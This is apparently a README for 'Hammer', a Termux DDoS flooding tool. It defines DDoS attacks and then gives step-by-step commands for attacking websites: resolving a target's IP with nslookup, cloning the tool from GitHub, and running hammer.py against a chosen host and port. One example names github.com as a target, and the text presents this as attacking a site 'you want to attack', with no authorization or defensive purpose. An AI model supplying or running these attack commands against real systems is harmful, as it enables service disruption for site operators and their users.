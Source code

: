 # Hammer
Ddos attack tool for termux
*What is ddos attack*
That is what a Distributed Denial of Service (DDoS) attack is—a method where cybercriminals flood a network with so much traffic that it cannot operate or communicate as it normally would. ... All it takes to create a DDoS attack are two devices that coordinate to send fake traffic to a server or website. That's it.

# What are ddos attack used for
Distributed denial of service (DDoS) attacks are a subclass of denial of service (DoS) attacks. A DDoS attack involves multiple connected online devices, collectively known as a botnet, which are used to overwhelm a target website with fake traffic.

# ddos attack tool
*Hammer*

Hammer need the Name Server of a website which you want to attack...
To get the Name Server...just type
$ nslookup example.com
Note the IP Address of that Website

then
> cd Hammer

> python hammer.py -s [ip Address] -t 135
example:

> python hammer.py -s 123.45.67.89 -t 135


# Installation
```pkg update && pkg upgrade

git clone https://github.com/EpluribusNEO/Hammer.git

cd Hammer

python hammer.py
```
# Usage:
> python hammer.py -s [IP address] -t 135

#### example: 
* python hammer.py -s 127.0.0.1 -p 80 -t 135
* python hammer.py -s github.com -p 443 -t 135

=============================
